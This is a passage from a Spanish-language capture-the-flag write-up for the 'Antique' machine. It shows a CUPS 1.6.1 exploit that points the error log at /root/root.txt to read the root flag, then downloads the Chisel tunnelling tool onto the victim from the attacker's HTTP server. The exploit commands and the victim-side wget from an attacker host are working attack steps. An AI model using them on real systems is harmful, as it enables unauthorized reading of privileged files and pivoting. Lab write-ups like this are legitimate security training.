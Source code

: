 Ahora probemos con la flag del root:
```bash
cupsctl ErrorLog=/root/root.txt
lp@antique:~$ curl http://localhost:631/admin/log/error_log
curl http://localhost:631/admin/log/error_log
105493e09fd1843b6349912d09080136
```
Excelente, igual en el siguiente blog explican bastante bien como funciona este Exploit:
* <a href="https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/escalate/cups_root_file_read" target="_blank">CUPS 1.6.1 Root File Read - Metasploit</a>

Con esto podemos concluir la máquina, pero quiero hacer una par de cosas más.

<h2 id="Chisel">Viendo Página de CUPS 1.6.1 con Chisel</h2>

Vamos a descargar la última versión del Chisel, aca te lo dejo (descargue la versión **chisel_1.10.0_linux_amd64.gz**):
* <a href="https://github.com/jpillora/chisel/releases/tag/v1.10.0" target="_blank">Repositorio de jpillora: Chisel - Releases</a>

Y descomprimelo, si quieres cambiale el nombre y dale permisos de ejecución:
```bash
gunzip chisel_1.10.0_linux_amd64.gz
ls
chisel_1.10.0_linux_amd64
chmod +x chisel_1.10.0_linux_amd64
```

Con esto ya podemos configurar en ambas máquinas, vamos por pasos:

* Levanta un servidor de **Python**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

* Envia **Chisel** a la máquina víctima, igual si quieres cambiale el nombre y dale permisos de ejecución:
```bash
lp@antique:~$ mkdir tmp
mkdir tmp
lp@antique:~$ cd tmp
cd tmp
lp@antique:~/tmp$ wget http://Tu_IP/chisel_1.10.0_linux_amd64 
wget http://Tu_IP/chisel_1.10.0_linux_amd64
Connecting to Tu_IP:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8945816 (8.5M) [application/octet-stream]
Saving to: ‘chisel_1.10.0_linux_amd64’
*
chisel_1.10.0_linux 100%[===================>]   8.53M  1.67MB/s    in 6.3s    
*
(1.35 MB/s) - ‘chisel_1.10.0_linux_amd64’ saved [8945816/8945816]
lp@antique:~/tmp$ mv chisel_1.10.0_linux_amd64 chisel_client        
mv chisel_1.10.0_linux_amd64 chisel_client
lp@antique:~/tmp$ chmod +x chisel_client
chmod +x chisel_client
```
